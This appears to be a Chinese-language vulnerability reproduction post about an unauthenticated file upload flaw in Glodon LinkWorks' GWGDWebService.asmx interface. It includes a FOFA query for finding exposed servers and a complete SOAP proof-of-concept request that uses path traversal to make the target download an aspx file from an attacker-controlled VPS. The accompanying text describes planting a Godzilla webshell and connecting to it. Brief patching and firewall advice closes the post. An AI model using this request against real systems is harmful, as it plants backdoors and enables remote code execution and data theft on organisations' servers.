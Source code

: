 
# 广联达 linkworks 文件上传漏洞复现

### 0x01 产品简介

 [广联达](https://so.csdn.net/so/search?q=%E5%B9%BF%E8%81%94%E8%BE%BE&spm=1001.2101.3001.7020) LinkWorks（也称为 GlinkLink 或 GTP-LinkWorks）是广联达公司（Glodon）开发的一种 BIM（建筑信息模型）协同平台。广联达是中国领先的数字建造技术提供商之一，专注于为建筑、工程和建筑设计行业提供数字化解决方案。

### 0x02 漏洞概述

  由于广联达 LinkWorks /GB/LK/ArchiveManagement/Js/GWGDWebService.asmx接口处设置不当，未经身份认证的攻击者通过该漏洞上传恶意文件，可能导致恶意代码执行、身份伪造、后门植入、敏感数据泄露等问题。

### 0x03 复现环境

FOFA：

```http
body="Services/Identification/login.ashx" || header="Services/Identification/login.ashx" || banner="Services/Identification/login.ashx"
```

![](assets/1701134743-c03f5171a202aa03a165f48ca0023a20.png)

### 0x04 漏洞复现 

PoC

```http
POST /GB/LK/ArchiveManagement/Js/GWGDWebService.asmx HTTP/1.1
Host: {{Hostname}}
Content-Type: text/xml; charset=utf-8
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tem="http://tempuri.org/">
   <soapenv:Header/>
   <soapenv:Body>
      <tem:GetGWGDData>
         <!--Optional:-->
         <tem:data>
            <root>
               <GWINFO>
                  <公文标题>1</公文标题>
                  <拟稿人>拟稿人</拟稿人>
                  <主送单位>主送单位</主送单位>
                  <主题词>主题词</主题词>
                  <印发份数>1</印发份数>
                  <签发日期>2022-12-07</签发日期>
               </GWINFO>
               <aa>
                  <FileName>./../../../../../../../applications/gtp-default/Web/Common/1.aspx</FileName>
                  <DownLoadURL>http://vpsIP/1.aspx</DownLoadURL>
               </aa>
            </root>
         </tem:data>
      </tem:GetGWGDData>
   </soapenv:Body>
</soapenv:Envelope>
```

生成哥斯拉 aspx 马，上传至 vps

python 开启 http 服务器，发送请求

![](assets/1701134743-1cb7b907ba88baa04da11db420d8bb4e.png)

![](assets/1701134743-336ac0087d366ac7b59e565fe707b48b.png) 验证

![](assets/1701134743-e2264bb59fd98eafa69314bb5b4c0262.png)

尝试连接

### ![](assets/1701134743-14e406920b10d9bc9e5d3c301ca44af5.png) ![](assets/1701134743-bced54610c705e53c9720c7567d72511.png)0x05 修复建议 

官方暂已修复该漏洞，请用户联系厂商修复漏洞：http://www.glinkworks.com/office.html

通过防火墙等安全设备设置访问策略，设置白名单访问。

如非必要，禁止公网访问该系统。
